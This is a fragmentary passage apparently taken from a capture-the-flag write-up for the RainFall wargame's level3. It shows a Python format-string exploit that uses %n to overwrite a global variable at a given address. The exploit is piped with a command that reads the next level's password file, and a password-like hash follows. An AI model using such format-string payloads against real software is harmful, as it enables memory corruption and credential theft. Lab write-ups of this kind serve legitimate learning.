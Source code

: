 m  = 0x804988c

    200b7fd1ac0b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

	level3@RainFall:~$ (python -c "print ('\x8c\x98\x04\x08' + '%8.x' * (3) + 'A' * (32 + 4) + '%n')"; echo "cat /home/user/level4/.pass") | ./level3
�     200b7fd1ac0b7ff37d0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!

b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa